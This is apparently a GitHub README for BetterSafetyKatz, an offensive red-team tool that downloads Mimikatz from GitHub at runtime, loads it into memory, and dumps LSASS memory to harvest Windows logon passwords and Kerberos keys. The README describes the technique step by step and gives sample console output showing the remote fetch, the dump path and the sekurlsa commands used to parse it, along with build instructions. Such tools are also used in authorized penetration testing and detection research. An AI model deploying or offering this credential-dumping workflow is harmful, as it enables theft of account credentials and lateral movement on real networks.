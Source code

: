 # BetterSafetyKatz?

----

#### This release
This modified fork of SafetyKatz dynamically fetches the latest pre-compiled release of Mimikatz directly from the gentilkiwi GitHub repo, and uses @subtee's PE Loader to get it into memory.
It still does the MiniDumpWriteDump, but since this is the original verson of Mimikatz, it does no automatically read from the dump file (You will have to input that yourself)
However working on getting that working via CreateThread

Credits to [@Mrtn9](https://twitter.com/Mrtn9) for his collab on this!

#### Old release
SafetyKatz is a combination of slightly modified version of [@gentilkiwi](https://twitter.com/gentilkiwi)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/) project and [@subtee](https://twitter.com/subtee)'s [.NET PE Loader](https://github.com/re4lity/subTee-gits-backups/blob/master/PELoader.cs).
First, the [MiniDumpWriteDump](https://docs.microsoft.com/en-us/windows/desktop/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump) Win32 API call is used to create a minidump of LSASS to C:\Windows\Temp\debug.bin. Then @subtee's PELoader is used to load a customized version of Mimikatz that runs
**sekurlsa::logonpasswords** and **sekurlsa::ekeys** on the minidump file, removing the file after execution is complete.

#### Modifications

* @subtee's PE Loader was slightly modified so some of the pointer arithmetic worked better on .NET 3.5
* @gentilkiwi's Mimikatz project was modified to strip some functionality for size reasons, and to automatically run the sekurlsa::minidump mode (deleting the minidump file after). If you don't trust my compiled version, feel free to build it yourself :)


[@harmj0y](https://twitter.com/harmj0y) is the primary author of this port.

SafetyKatz is licensed under the BSD 3-Clause license.

## Usage

    PS D:\Projects\SafetyKatz\SafetyKatz\bin\Debug> .\SafetyKatz.exe                                                      
	
	[+] Contacting gentilkiwi -> https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200502/mimikatz_trunk.zip
	[*] Dumping lsass (840) to C:\Windows\Temp\debug.bin
	[+] Dump successful!
	[+] Run the following to parse dump -> : 'sekurlsa::minidump C:\Windows\Temp\debug.bin' then 'sekurlsa::LogonPasswords'

	[*] Executing loaded Mimikatz PE

	  .#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51
	 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
	 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
	 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
	 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
	  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

	mimikatz # coffee

		( (
		 ) )
	  .______.
	  |      |]
	  \      /
	   `----'

	mimikatz #


## Compile Instructions

We are not planning on releasing binaries for SafetyKatz, so you will have to compile yourself :)

SafetyKatz has been built against.NET 3.5 and is compatible with[Visual Studio 2015 Community Edition](https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.
